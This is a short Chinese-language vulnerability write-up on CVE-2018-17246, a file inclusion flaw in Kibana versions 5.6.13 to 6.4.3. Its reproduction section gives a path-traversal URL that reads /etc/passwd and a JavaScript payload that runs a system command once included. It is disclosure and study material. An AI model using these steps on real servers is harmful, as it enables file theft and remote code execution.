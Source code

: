 （CVE-2018-17246）Kibana Local File Inclusion
=============================================

一、漏洞简介
------------

Kibana 为 Elassticsearch
设计的一款开源的视图工具。其5.6.13到6.4.3之间的版本存在一处文件包含漏洞，通过这个漏洞攻击者可以包含任意服务器上的文件。此时，如果攻击者可以上传一个文件到服务器任意位置，即可执行代码。

二、漏洞影响
------------

Kibana 5.6.13到6.4.3

三、复现过程
------------

直接访问如下URL，来包含文件`/etc/passwd`：

    http://www.0-sec.org:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd

虽然在返回的数据包里只能查看到一个500的错误信息，但是我们通过执行`docker-compose logs`即可发现，`/etc/passwd`已经成功被包含：

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-17246)KibanaLocalFileInclusion/media/rId24.png)

所以，我们需要从其他途径往服务器上上传代码，再进行包含从而执行任意命令。比如，我们将如下代码上传到服务器的`/tmp/vulhub.js`：

    // docker-compose exec kibana bash && echo '...code...' > /tmp/vulhub.js
    export default {asJson: function() {return require("child_process").execSync("id").toString()}}

成功包含并返回命令执行结果：

![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-17246)KibanaLocalFileInclusion/media/rId25.png)
